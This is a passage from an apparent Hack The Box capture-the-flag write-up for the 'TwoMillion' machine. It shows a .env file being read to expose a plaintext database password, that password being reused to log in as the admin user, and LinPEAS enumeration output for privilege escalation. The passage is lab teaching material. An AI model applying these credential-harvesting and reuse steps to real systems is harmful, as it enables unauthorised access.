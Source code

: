 There's a `.env` file: 

```bash
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Let's test for credentials reuse:

```bash
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:/var/www/html$ 
```

We can also SSH with the creds.

## Privilege Escalation

We will start with `sudo -l`: 

```bash
admin@2million:~$ sudo -l
[sudo] password for admin: 
Sorry, user admin may not run sudo on localhost.
```

Let's transfer LinPEAS and run it:

```bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files                                                                                                              
/dev/mqueue                                                                                                                                                                                                   
/dev/shm
/home/admin
/run/lock
/run/screen
/run/screen/S-admin
/run/user/1000
/run/user/1000/dbus-1
/run/user/1000/dbus-1/services
/run/user/1000/gnupg
/run/user/1000/systemd
/run/user/1000/systemd/generator.late
/run/user/1000/systemd/generator.late/app-snapx2duserdx2dautostart@autostart.service
/run/user/1000/systemd/generator.late/xdg-desktop-autostart.target.wants
/run/user/1000/systemd/inaccessible
/run/user/1000/systemd/inaccessible/dir
/run/user/1000/systemd/inaccessible/reg
/run/user/1000/systemd/transient
/run/user/1000/systemd/units
/snap/core20/1891/run/lock
/snap/core20/1891/tmp
/snap/core20/1891/var/tmp
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/tmux-1000
```